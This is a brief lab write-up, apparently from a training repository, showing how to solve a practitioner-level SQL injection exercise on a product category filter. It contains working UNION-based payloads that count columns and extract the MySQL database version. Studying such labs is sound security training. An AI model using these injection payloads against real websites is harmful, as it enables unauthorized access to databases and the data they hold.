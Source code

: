 # Lab 03 :  SQL injection attack, querying the database type and version on MySQL and Microsoft

## Overview:
- Level : PRACTITIONER
- SQL Injection on product category filter
- Union attack
- End Goal : Display the database version string



## Analysis:
- Make the database retrieve the string: '8.0.36-0ubuntu0.20.04.1'
- put ' as product category it give 500 internal server error

## Solution:
- determine number of column
    ' UNION SELECT 'def',# gives 500 internal server error
    ' UNION SELECT 'def','adfs'# gives 200 ok responce
    so there are two column

- to get database type and version use following payload
    ' UNION SELECT @@version, NULL#


